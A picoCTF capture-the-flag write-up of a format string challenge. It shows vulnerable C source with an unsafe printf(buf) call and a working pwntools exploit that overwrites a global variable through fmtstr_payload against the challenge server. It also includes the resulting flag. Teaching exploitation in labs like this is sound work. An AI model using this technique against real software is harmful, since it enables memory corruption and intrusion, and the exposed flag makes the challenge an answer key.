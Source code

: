 The goal is to manipulate the global variable `sus` to equal `0x67616c66`, which corresponds to the ASCII string `'flag'` in little-endian. If successful, the program will read and display the contents of `flag.txt`.



A portion of the provided C source code is as follows:

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
    char buf[1024];
    char flag[64];

    printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
    fflush(stdout);
    scanf("%1024s", buf);
    printf("Here's your input: ");
    printf(buf);
    printf("\n");
    fflush(stdout);

    if (sus == 0x67616c66) {
        printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

        FILE *fd = fopen("flag.txt", "r");
        fgets(flag, 64, fd);

        printf("%s", flag);
        fflush(stdout);
    } else {
        printf("sus = 0x%x\n", sus);
        printf("You can do better!\n");
        fflush(stdout);
    }

    return 0;
}
```



The `printf(buf)` line is the key vulnerability. Since the contents of `buf` are directly passed to `printf` without format string specifiers, the program is susceptible to arbitrary format string evaluation. This allows reading or writing arbitrary memory if the input string is crafted correctly.

The objective is to overwrite the global variable `sus` (at address `0x404060`) with the value `0x67616c66`.



Manually crafting a format string payload to perform arbitrary memory writes is complex and error-prone due to the need for precise stack positioning and padding. Instead, this process can be automated using the `pwntools` library, which provides the `FmtStr` and `fmtstr_payload()` utilities to facilitate exploitation.

The steps involved in the exploitation are:

1. Automatically detect the format string offset using `FmtStr`.
2. Use `fmtstr_payload()` to generate a payload that performs the desired write.
3. Send the payload to the remote server.
4. Receive the output containing the flag.

### Exploit 

```python
from pwn import *

context.binary = ELF('./vuln', checksec=False)
context.log_level = 'debug'  # Optional: shows full interaction


def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61118)
    io.sendline(payload)
    return io.recvall()

# Automatically detect offset
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
log.success(f"Detected format string offset: {offset}")

# Format string payload to write 'flag' (0x67616c66) to 0x404060
writes = {
    0x404060: 0x67616c66
}
payload = fmtstr_payload(offset, writes)

# Send final payload
p = remote('rhea.picoctf.net', 61118)
p.sendline(payload)

# Get and display flag
flag = p.recvall()
print(flag.decode())

```

### Result

Upon execution, the program responds with:

```
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}
```

This confirms that the value at `sus` was successfully overwritten, triggering the conditional branch that reads and prints the flag.

![image](https://github.com/user-attachments/assets/2c236074-ce0b-42ef-9627-e17d201be7ef)


